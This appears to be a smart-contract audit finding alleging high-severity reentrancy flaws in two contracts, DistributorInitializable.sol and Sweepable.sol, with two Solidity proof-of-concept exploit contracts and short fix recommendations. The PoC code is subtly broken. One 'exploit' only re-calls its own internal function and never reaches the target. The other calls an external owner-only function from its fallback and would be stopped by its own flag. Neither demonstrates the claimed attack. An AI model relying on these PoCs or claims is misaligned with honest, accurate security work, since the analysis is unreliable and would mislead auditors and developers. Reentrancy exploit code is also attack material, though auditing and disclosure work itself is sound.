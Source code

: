 Unique Seaweed Crab

high

# Token Soft Audit

## Summary  I found two separate cases in the code that could be potential vulnerable to an Reentrancy Attack.  

## Vulnerability Detail  Reentrancy allows an hacker to repeatedly withdraw funds from a smart contract and transfers them to an unauthorized contract until the funds have been exhausted. 

## Impact  High 

## Code Snippet   Contract: DistributorInitializable.sol #90:4  
POC:   // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./YourToken.sol";

contract ReentrancyPoC {
    YourToken public token; // Assuming YourToken is the token contract

    constructor(address _tokenAddress) {
        token = YourToken(_tokenAddress);
    }

    function _settleClaim(address _recipient, uint256 _amount) internal virtual {
        token.safeTransfer(_recipient, _amount);
        emit Claim(_recipient, _amount);
    }

    event Claim(address recipient, uint256 amount);

    // Function to exploit reentrancy vulnerability
    function exploit(address _recipient, uint256 _amount) external {
        // Call _settleClaim in a loop to trigger reentrancy
        for (uint256 i = 0; i < 10; i++) {
            // This contract is the attacker contract
            // Before calling _settleClaim, this contract's fallback function is called
            // This allows the attacker to re-enter this function multiple times
            _settleClaim(_recipient, _amount);
        }
    }

    // Fallback function to exploit reentrancy
    fallback() external payable {
        // Call _settleClaim in the fallback function
        // This will trigger reentrancy because _settleClaim transfers tokens before emitting an event
        _settleClaim(msg.sender, msg.value);
    }
}

Sweepable.sol  Contract  #22-26 
POC:  // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./IERC20.sol"; // Import the IERC20 interface

contract ReentrancyPoC {
    address public owner;
    address public recipient;
    bool public isSweeping;

    // Define an event to log the token sweep
    event SweepToken(address indexed token, uint256 amount);

    constructor(address _recipient) {
        owner = msg.sender;
        recipient = _recipient;
    }

    // Modifier to restrict access to the owner
    modifier onlyOwner() {
        require(msg.sender == owner, "Caller is not the owner");
        _;
    }

    // Function to sweep tokens from a given ERC20 contract
    function sweepToken(IERC20 token) external onlyOwner {
        require(!isSweeping, "Sweeping already in progress");
        
        // Set the flag to indicate that sweeping is in progress
        isSweeping = true;
        
        // Get the balance of tokens held by this contract
        uint256 amount = token.balanceOf(address(this));
        
        // Transfer the tokens to the recipient address
        token.transfer(recipient, amount);
        
        // Log the token sweep event
        emit SweepToken(address(token), amount);
        
        // Reset the flag after sweeping is complete
        isSweeping = false;
    }

    // Fallback function to exploit reentrancy
    fallback() external payable {
        // Check if sweeping is in progress
        require(isSweeping, "Sweeping not in progress");
        
        // Re-enter the sweepToken function recursively
        // This will exploit the reentrancy vulnerability
        sweepToken(IERC20(msg.sender));
    }
}


## Tool used  Slither

Manual Review

## Recommendation  Could use an reentrancy guard to prevent it from happening.   
Could add Boolean state variable _lock if true 
Add NoReentrancy Modifier 
Make sure Sweep token function can only be executed once per transaction. 
